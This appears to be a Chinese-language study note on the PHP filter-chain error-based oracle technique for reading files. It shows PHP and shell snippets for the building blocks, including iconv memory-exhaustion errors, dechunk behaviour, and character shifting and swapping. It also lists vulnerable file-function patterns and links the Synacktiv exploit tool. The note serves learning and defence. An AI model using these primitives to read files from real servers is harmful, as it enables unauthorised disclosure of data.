

# PHP FILTER CHAINS: FILE READ FROM ERROR-BASED ORACLE

## 思路

利用`php://filter`实现基于error的文件读取，具体利用起来也是各种编码转换，从识别第一位的字符到识别其他位置的字符，逻辑比较复杂，需要理解才能懂。

学习到的是其中一些比较有意思的filter。

下面的可以导致内存溢出报错：

```php
<?php

$string = "START";

for ($i = 1; $i <= 13; $i++) {
    $string = iconv("UTF8", "UCS-4LE", $string);
}
```

下面的例子说明了首字符是十六进制字符时内容会被丢弃。

```php
$ echo "START" > /tmp/test
$ php -r 'echo file_get_contents("php://filter/dechunk/resource=/tmp/test");' 
START
$ echo "0TART" > /tmp/test
$ php -r 'echo file_get_contents("php://filter/dechunk/resource=/tmp/test");' 
$ echo "ATART" > /tmp/test
$ php -r 'echo file_get_contents("php://filter/dechunk/resource=/tmp/test");' 
$ echo "aTART" > /tmp/test
$ php -r 'echo file_get_contents("php://filter/dechunk/resource=/tmp/test");' 
$ echo "GTART" > /tmp/test
$ php -r 'echo file_get_contents("php://filter/dechunk/resource=/tmp/test");'
GTART
```

利用`X-IBM-930`可以实现字符的+1移动。

```php
<?php
$guess_char = "";

for ($i=1; $i <= 7; $i++) {
    $remove_junk_chars = "convert.quoted-printable-encode|convert.iconv.UTF8.UTF7|convert.base64-decode|convert.base64-encode|";
    $guess_char .= "convert.iconv.UTF8.UNICODE|convert.iconv.UNICODE.CP930|$remove_junk_chars";
    $filter = "php://filter/$guess_char/resource=/tmp/test";
    echo "IBM-930 conversions : ".$i;
    echo ", First char value : ".file_get_contents($filter)[0]."\n";
}

```


交换字符方式：

```php
$ echo -n abcdefgh > /tmp/test
$ php -r 'echo file_get_contents("php://filter/convert.iconv.UTF16.UTF-16BE/resource=/tmp/test")."\n";'
badcfehg
$ php -r 'echo file_get_contents("php://filter/convert.iconv.UCS-4.UCS-4LE/resource=/tmp/test")."\n";'
dcbahgfe
$ php -r 'echo file_get_contents("php://filter/convert.iconv.UCS-4.UCS-4LE|convert.iconv.UTF16.UTF-16BE/resource=/tmp/test")."\n";'
cdabghef
```

## 影响

基本就是大部分操作文件的函数，只要对文件执行操作，包括读取、写入或向文件追加内容，或者使用了链接到该文件的流，那么如果可以控制传递给这些函数的参数，就可能使用过滤器链filter chain并使用基于错误的oracle漏洞攻击。

下面是受影响的PHP函数的部分列表。

| **Function**                                               | **Pattern**                                                  |
| ---------------------------------------------------------- | ------------------------------------------------------------ |
| ***file_get_contents\***                                   | `file_get_contents($_POST[0]);`                              |
| ***readfile\***                                            | `readfile($_POST[0]);`                                       |
| ***finfo->file\***                                         | `$file = new finfo(); $fileinfo = $file->file($_POST[0], FILEINFO_MIME);` |
| ***getimagesize\***                                        | `getimagesize($_POST[0]);`                                   |
| ***md5_file\***                                            | `md5_file($_POST[0]);`                                       |
| ***sha1_file\***                                           | `sha1_file($_POST[0]);`                                      |
| ***hash_file\***                                           | `hash_file('md5', $_POST[0]);`                               |
| ***file\***                                                | `file($_POST[0]);`                                           |
| ***parse_ini_file\***                                      | `parse_ini_file($_POST[0]);`                                 |
| ***copy\***                                                | `copy($_POST[0], '/tmp/test');`                              |
| ***file_put_contents (only target read only with this)\*** | `file_put_contents($_POST[0], "");`                          |
| ***stream_get_contents\***                                 | `$file = fopen($_POST[0], "r"); stream_get_contents($file);` |
| ***fgets\***                                               | `$file = fopen($_POST[0], "r"); fgets($file);`               |
| ***fread\***                                               | `$file = fopen($_POST[0], "r"); fread($file, 10000);`        |
| ***fgetc\***                                               | `$file = fopen($_POST[0], "r"); fgetc($file);`               |
| ***fgetcsv\***                                             | `$file = fopen($_POST[0], "r"); fgetcsv($file, 1000, ",");`  |
| ***fpassthru\***                                           | `$file = fopen($_POST[0], "r"); fpassthru($file);`           |
| ***fputs\***                                               | `$file = fopen($_POST[0], "rw"); fputs($file, 0);`           |


## 限制

`file_exists` 或 `is_file` 等函数控制输入字符串可能无法成功，因为不支持包装器。

此外就是因为发送的payload很大，因此最好是POST，GET很容易不满足payload长度。


## 工具

[synacktiv/php_filter_chains_oracle_exploit: A CLI to exploit parameters vulnerable to PHP filter chain error based oracle.](https://github.com/synacktiv/php_filter_chains_oracle_exploit)



测试下来似乎读取到最后两位的时候可能会缺失，但是少读2个字符也影响不大。


## References

[PHP filter chains](https://www.synacktiv.com/publications/php-filter-chains-file-read-from-error-based-oracle)

[synacktiv/php_filter_chains_oracle_exploit: A CLI to exploit parameters vulnerable to PHP filter chain error based oracle.](https://github.com/synacktiv/php_filter_chains_oracle_exploit)